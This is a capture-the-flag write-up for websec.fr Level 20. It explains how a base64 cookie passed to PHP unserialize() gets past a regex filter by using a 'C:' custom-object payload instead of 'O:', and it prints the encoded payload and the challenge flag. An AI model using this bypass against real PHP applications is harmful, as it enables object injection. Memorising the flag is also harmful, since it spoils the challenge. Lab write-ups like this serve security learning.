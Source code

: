 # Level 20

1. First, lets check what is written in http://websec.fr/level20/source.php
2. Then, we could find out : 
    ```
    if (isset ($_COOKIE['data'])) {
        $data = sanitize (base64_decode ($_COOKIE['data']));
    }
    ```
    So, we can first check out what is written in the cookie by decode it. Before doing it, lets input an item "flag" and see what happen. Remember to decode it by base64. You can decode it by the website : https://www.base64decode.org
    ```
    a:1:{i:0;s:4:"flag";}
    ```
3. Now, we have to know what it means. I search for a long time and get the information from the website : https://www.evonide.com/fuzzing-unserialize
    After you read the graph below you will know what does "a" "i" "s" and the number next to them means.
4. Then, after you know what it means, the only mission we have to do is to look in the source and check where is the vulnerable part. So here is the interesting part : 
    ```
    function sanitize($data) {
        /* i0n1c's bypass won't save you this time! (https://www.exploit-db.com/exploits/22547/) */
        if ( ! preg_match ('/[A-Z]:/', $data)) {
            return unserialize ($data);
        }

        if ( ! preg_match ('/(^|;|{|})O:[0-9+]+:"/', $data )) {
            return unserialize ($data);
        }

        return false;
    }
    ```
5. Now, we have to know what we want --- an object named "flag"
    As you can see here : 
    ```
    if ( ! preg_match ('/(^|;|{|})O:[0-9+]+:"/', $data ))
    ```
    It means that I can not use "O" or "O+" to get the flag. If you read the websit carefully and you would find out that : 
    ```
    switch (yych) {
        case 'C':
        case 'O': goto yy13;
        case 'N': goto yy5;
        case 'R': goto yy2;
        case 'S': goto yy10;
        case 'a': goto yy11;
        case 'b': goto yy6;
        case 'd': goto yy8;
        case 'i': goto yy7;
        case 'o': goto yy12;
        case 'r': goto yy4;
        case 's': goto yy9;
        case '}': goto yy14;
        default:  goto yy16;
    }
    ```
    As you can see, "C" and "O" can reach the same place. So we have to make a custom object using "C" and named it "flag" to get the object "flag". Here is my payload : 
    ```
    C:4:"flag":1:{};
    ```
    Then lets encode it using base64 : 
    ```
    Qzo0OiJmbGFnIjoxOnt9Ow==
    ```
    Change the value of cookie and refresh the website then you will get the flag ~~~
6. Here is the flag : WEBSEC{CVE-2012-5692_was_a_lof_of_phun_thanks_to_i0n1c_but_this_was_not_the_only_bypass}
